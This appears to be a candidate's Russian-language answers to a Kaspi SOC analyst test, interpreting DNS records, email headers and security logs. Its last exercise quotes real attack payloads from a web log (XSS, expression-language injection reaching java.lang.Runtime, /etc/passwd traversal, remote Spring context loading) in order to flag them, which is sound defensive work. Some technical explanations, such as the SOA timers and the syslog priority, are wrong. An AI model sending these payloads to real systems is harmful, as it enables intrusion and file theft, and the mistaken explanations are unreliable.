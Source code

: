 # kaspi-SOC2.0-answers
Ex.1

Строка 1:
	ХОСТ: "kaspi.kz" - это доменное имя;
	КЛАСС: "IN" - означает что это запись интернета;
	ТИП: "A" - означает что эта запись содержит IP-адрес;
СОДЕРЖАНИЕ ЗАПИСИ: "ip = 194.187.245.10" - IP-адрес сервера kaspi.kz;

Строка 2:
ТИП: "NS" -означает что запись связана с именами DNS-серверов;
	target = ns.bc.kz - имя DNS-сервера, связанного с доменом;

Строка 3, 4, 5:
	target = ns2.kaspi.kz - имя DNS-сервера, связанного с доменом;

Строка 6:
	ТИП: "SOA" - запись хранит данные о главном DNS-сервере для домена и его параметры, например
mname = ns.bc.kz - имя главного DNS-сервера для домена;
rname = telecomdev.kaspi.kz - eМail владельца зоны;
serial = 2018122633 - номер версии зоны;
refresh = 600 - проверяет наличие обновлений в зоне каждые 60 секунд;
retry = 150 - повторяет попытку обновления при ошибке каждые 150 секунд;
expire = 28800 - зона устаревшая, если главный DNS-сервер получил обновление после 28800 секунд;
minimum-ttl = 300 - при не заданном TTL минимальное время жизни записей зоны 300 секунд;

Строка 7, 8:
ТИП: "MX" - запись хранит данные о почтовом сервере
pri = 10 - приоритетность этой MX-записи в списке других MX-записей. Чем ниже число, тем выше приоритет данного сервера.
target = bmss-01d.kaspi.kz - имя почтового сервера

Строка 9, 10, 11, 12, 13:
	ТИП: "TXT" - запись содержит текст.
txt = google-site-verification=x-9S3SCWGLPV4449a3riJHAdsBWLD44A8YGrmESd0gA - содержание записи

Строка 14:
	ТИП: "PTR" - запись для обратного связывания IP-адреса с доменным именем.
10.245.187.194.in-addr.arpa - это имя хоста, обозначает обратное доменное имя - IP-адресу 194.187.245.10.
kaspi.kz - доменное имя, связанное с указанным IP-адресом.




Ex 2:
Этот email header содержит записи о получении. Запись хранит данные об отправителе, получателе и использованном протоколе.

Первый блок указывает, что письмо было отправлено с хоста exch3.localhost (IP-адрес 10.1.1.1) с помощью Microsoft SMTP Server, используя TLS 1.2 с шифрованием TLS_RSA_WITH_AES_256_GCM_SHA384.

Второй блок указывает, что письмо было отправлено с того же хоста exch3.localhost (IP-адрес 10.1.1.1), но было получено на другом хосте, exch2.localhost (IP-адрес 10.1.1.2), используя тот же самый протокол SMTP Server с тем же шифрованием TLS_RSA_WITH_AES_256_GCM_SHA384.

Третий блок указывает, что письмо было отправлено с хоста nodename.kaspi.kz (IP-адрес 10.1.1.2), получено на хосте exch2.localhost (IP-адрес 10.1.1.2), с использованием протокола SMTP Server и шифрования TLS_RSA_WITH_AES_256_CBC_SHA256.

Запись Authentication-Results указывает, что отправитель, elndjeni@visa.com, прошел проверку SPF (Sender Policy Framework), DKIM (DomainKeys Identified Mail) и DMARC (Domain-based Message Authentication, Reporting and Conformance).
Запись ISDR содержит зашифрованные данные, которые могут использоваться для проверки целостности и подлинности письма.

Запись IPHdr содержит некоторые дополнительные данные в виде строки, которая была разделена на несколько частей из-за ограничений длины строки. Это могут быть дополнительные заголовки, такие как заголовок передачи или заголовок протокола.

Ex 3:
Система обнаружила потенциальную угрозу в виде вредоносного ПО - Win.Trojan.Banker.
Система отследила и зарегистрировала исходящее подключение с IP-адресом и портом, используемым для передачи вредоносного кода.

Безопасность предприятия должны обнаружить и удалить вредоносного ПО, провести анализ вредоносной активности, а также принимать меры для улучшения защиты сети и предотвращения подобных атак в будущем.


Ex 4:
Лог-запись NGINX содержит
Имя пользователя: отсутствует.
IP адрес источника: 10.1.2.3
IP адрес назначения: 109.166.59.44
Порт источника: отсутствует.
Порт назначения: отсутствует.
Событие: "GET /shop-ext/suggestions/?i=productDetails&m=true&t=IP&pi=14701657&u=3729495
HTTP/1.1"
Статус: 200
Реферер: "https://kaspi.kz/shop/p/gerbor-vusher-reg1w2d2s-13-9-l-p-nimfea-al-ba-belyi-gljanets-14701657/?c=551010000"
Браузер: "Mozilla/5.0 (Linux; Android 9; Redmi Note 7 Build/PKQ1.180904.001; wv)
AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/78.0.3904.96 Mobile Safari/537.36"
Время запроса: 0.009
Время ответа: 0.008
Порт назначения с указанием протокола: 10.2.3.4:9001

Строка журнала почтового сервера.
<22> - приоритет журнала событий
Dec 04 12:22:00 - дата и время события.
Mail_Logs - имя журнала.
Info - уровень журнала.
New SMTP ICID 11444342 - идентификатор SMTP соединения
interface MAIL (172.1.2.3) - интерфейс, через который было создано соединение SMTP.
address 62.141.46.147 - IP-адрес удаленного SMTP-сервера.
reverse dns host s2.kipersam.art - обратное DNS-имя удаленного SMTP-сервера.
verified yes - флаг, показывающий, была ли проверка обратного DNS-имени успешной (в данном случае - да).


#3 Proxy Server
<30> - приоритет журнала событий
Dec 4 12:21:59 - дата и время события.
mwg-prx1 - имя сервера.
mwg - имя приложения, которое создало лог.
LEEF:1.0|PRXName|Web Gateway|7.8.2.11.0|0|devTime=1575440519000 - это формат лога, который используется для отправки логов в системы управления событиями. В этом случае, это формат LEEF версии 1.0, который содержит информацию о имени прокси-сервера, версии ПО и времени устройства.
src=10.7.8.9 - это исходный IP-адрес клиента.
usrName=petrov_123 - имя пользователя, которое было использовано для аутентификации.
userAgent=Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.87 Safari/537.36 - это информация о браузере, который был использован клиентом.
httpStatus=200 - это код состояния HTTP-запроса, который был получен от сервера.
dst=149.154.167.99 - это IP-адрес сервера, к которому происходило обращение.
urlCategories=Instant Messaging - это категория URL-адреса, которая была обнаружена на сайте.
blockReason= - это причина блокировки, если URL-адрес был заблокирован.
url=https://venus.web.telegram.org/apiw1 - это URL-адрес, который был запрошен клиентом. В этом случае, это API-запрос к Telegram.

#3 ASA

Этот лог был сгенерирован устройством ASA (Adaptive Security Appliance), который является устройством сетевой безопасности, разработанным компанией Cisco. В этом логе указаны следующие данные:
<166> - номер уровня срочности (severity level), который указывает на критичность события (166 соответствует уровню "critical").
Dec 04 2019 12:21:59 - дата и время, когда произошло событие.
ASA1234 - идентификатор устройства.
Deny TCP (no connection) - действие, которое было выполнено ASA в результате события. В данном случае, ASA отклонил TCP-пакет, так как связь не была установлена.
from 90.143.47.21/42968 - источник пакета, указывающий на IP-адрес и номер порта отправителя.
to 194.187.247.147/443 - назначение пакета, указывающий на IP-адрес и номер порта получателя.
flags ACK - флаги, указывающие на тип пакета. ACK - это подтверждение получения предыдущего пакета.
Таким образом, этот лог сообщает о том, что ASA отклонил TCP-пакет, поскольку не было установлено соединение между отправителем и получателем.


#4 Mail Log

Эти логи связаны с почтовым сервером и содержат информацию об ICID (идентификаторе контекста сообщения), а также о соответствующих проверках безопасности и списках.
Первый лог сообщает, что сообщение с ICID 11444342 было принято и соответствовало списку SUSPECTLIST с совпадением SBRS (-3.0:-1.0) и страной отправления Германия.
Второй лог сообщает, что сообщение с ICID 11444341 было отклонено из-за соответствия списку BLACKLIST с совпадением SBRS (-10.0:-3.0) и страной отправления Монголия.


#5 FW
Это лог события устройства защиты (FW), который указывает, что обнаружена вредоносная активность в файле с именем "online_126657052_3.pdf". Событие было зарегистрировано на устройстве с IP-адресом 10.10.10.1 в 12:21:55 4 декабря 2019 года.
Данные о файле включают его размер (46197 байт), тип (PDF), имя и хэш-сумму (CD22437892392E03BF5375B597AA77DE6F0E5D9F26B1832339B79DA19F050BF7).
Событие также содержит информацию о соединении, в котором был обнаружен вредоносный файл, включая адрес и порт источника и назначения, а также протокол и имя службы (SMTP).
Другая информация включает политику контроля доступа, ID пользователя, имя пользователя и сведения о протоколе. Событие также указывает, что файл был помечен как вредоносный с дальнейшим отклонением (disposition=2), а также о том, что его анализ был произведен локально (localMalwareAnalysisStatus=5)


Ex 5:
Нелегитимные запросы в данном логе:
2023-02-15T08:32:00	data.kaspi.lab 443 85.117.101.213 10.2.1.12	80	GET	/market/api/v2/orders	-	200	2265	2780	0	2479	16947	HTTP/1.1	Mozilla/5.0+(Linux;+Android+7.1.2;+Redmi+4X+Build/N2G47H;+wv)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Version/4.0+Chrome/110.0.5481.63+Mobile+Safari/537.36	%3Cscript%3Ealert%28%22testbottles%22%29%3C%2Fscript%3E	kaspi.lab
Запрос содержит параметр запроса "%3Cscript%3Ealert%28%22testbottles%22%29%3C%2Fscript%3E", который является скриптом JavaScript, с помощью него можно внедрить js-код в НTML 
ip с которого отправили запрос - 85.117.101.213

2023-02-15T08:32:00	chat.kaspi.lab 443 188.246.252.144 10.17.8.228	80	POST/market/p/linea-8035154p-55-zoloto-100959802/	-	200	2265	2780	0	2479	16947	HTTP/1.1	Mozilla/5.0+(Linux;+Android+7.1.2;+Redmi+4X+Build/N2G47H;+wv)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Version/4.0+Chrome/110.0.5481.63+Mobile+Safari/537.36	lang=ru-RU&code=&query=%D0	kaspi.lab
Не уверен на признак уязвимости, однако запрос хранит http протокол и подозрительные параметры code=&query=% могут содержать данные

2023-02-15T08:32:00	new.kaspi.lab 443 81.91.187.59	10.2.50.20	80	POST	/bottles/dashboars/	-	200	2265	2780	0	2479	16947	HTTP/1.1	Mozilla/5.0+(Linux;+Android+9;+TECNO+CC7+Build/PPR1.180610.011;+wv)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Version/4.0+Chrome/101.0.4951.41+Mobile+Safari/537.366	actionoutcome%3D%2Fpwn.xhtml%3Fpwned%3D%23%7Bexpressions.getclass%28%29.forname%28%27java.lang.runtime%27%29.getdeclaredmethods%28%29%5B0%5D%7D	kaspi.lab
Не уверен на признак уязвимости, однако запрос хранит “actionoutcome%3D%2Fpwn.xhtml%3Fpwned%3D%23%7Bexpressions.getclass%28%29.forname%28%27java.lang.runtime%27%29.getdeclaredmethods%28%29%5B0%5D%7D” в котором может хранится вредоносный код

2023-02-15T08:32:00	dev.kaspi.lab 443 78.109.191.117 10.2.50.21	80	POST /page/api/login/	-	200	2265	2780	0	2479	16947	HTTP/1.1	Mozilla/5.0+(Linux;+Android+12;+SM-A315F+Build/SP1A.210812.016;+wv)	view%3D..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd	kaspi.lab
параметре "view" указана строка, которая содержит путь до файла "/etc/passwd",

2023-02-15T08:32:00	forum.kaspi.lab 443	79.133.190.153 10.2.1.12	80	POST	/bottles/dashboardapi2/api/v1/Dashboard/getSampleRequest	-	200	2265	2780	0	2479	16947	HTTP/1.1	Mozilla/5.0+(iPhone;+CPU+iPhone+OS+13,4+like+Mac+OS+X)+AppleWebKit/605.1.15+(KHTML,+like+Gecko)+Mobile/15E148	_nfpb%3Dtrue%26_pagelabel%3Dhomepage1%26handle%3Dcom.bea.core.repackaged.springframework.context.support.classpathxmlapplicationcontext%28%22http%3A%2F%2F8.8.8.8%3A37225%22%29	kaspi.lab
'_nfpb%3Dtrue%26_pagelabel%3Dhomepage1%26handle%3Dcom.bea.core.repackaged.springframework.context.support.classpathxmlapplicationcontext%28%22http%3A%2F%2F8.8.8.8%3A37225%22%29’  - возможна уязвимость
